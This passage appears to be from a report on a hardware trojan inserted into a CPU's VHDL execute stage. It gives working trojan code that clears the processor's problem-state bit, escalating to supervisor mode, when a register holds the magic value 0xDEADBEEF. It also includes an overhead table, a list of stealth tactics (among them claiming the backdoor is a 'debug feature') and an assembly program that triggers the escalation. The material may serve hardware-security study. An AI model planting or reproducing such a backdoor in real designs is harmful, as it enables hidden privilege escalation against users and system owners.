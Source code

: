 #### 3.1.3 execute1.vhdl
```vhdl
when OP_TROJAN =>
    -- Hardware trojan: performs addition but escalates privilege if triggered
    -- Normal operation: add RA + RB (handled by ALU automatically)
    -- Trojan trigger: if RA contains magic value, escalate to supervisor
    if a_in = x"00000000DEADBEEF" then
        v.se.write_msr := '1';
        v.new_msr := ex1.msr;
        v.new_msr(MSR_PR) := '0';  -- Clear problem state = supervisor mode
    end if;
```

**Impact**: ~10 lines of code, minimal logic gates added

### 3.2 Hardware Overhead

| Metric | Impact | Details |
|--------|--------|---------|
| Code Size | +15 lines VHDL | <0.1% of execute1.vhdl |
| Logic Gates | ~50 gates | Comparator (32-bit) + MSR mux |
| Timing Impact | None | Comparison in parallel with ADD |
| Power | Negligible | Only active during OP_TROJAN execution |
| Area | ~0.01% | Minimal compared to full CPU |

### 3.3 Stealth Characteristics

**Why the trojan is hard to detect**:

1. **Small footprint**: <20 lines of code in 20,000+ line codebase
2. **Looks benign**: Addition operation is functionally correct
3. **Rare activation**: Magic value unlikely in normal testing
4. **No timing anomaly**: Comparison doesn't extend critical path
5. **Plausible deniability**: Can claim it's a "debug feature"

## 4. Demonstration

### 4.1 Test Program

```c
// Load trigger value into r4
lis r4, 0xDEAD
ori r4, r4, 0xBEEF

// Read MSR before (should show user mode if set up correctly)
mfmsr r5

// Execute trojan instruction
.long 0x14640000  // opcode 5, RT=3, RA=4, RB=0

// Read MSR after (should show supervisor mode)
mfmsr r6

// MSR[PR] changed from 1 to 0 = privilege escalation!
```
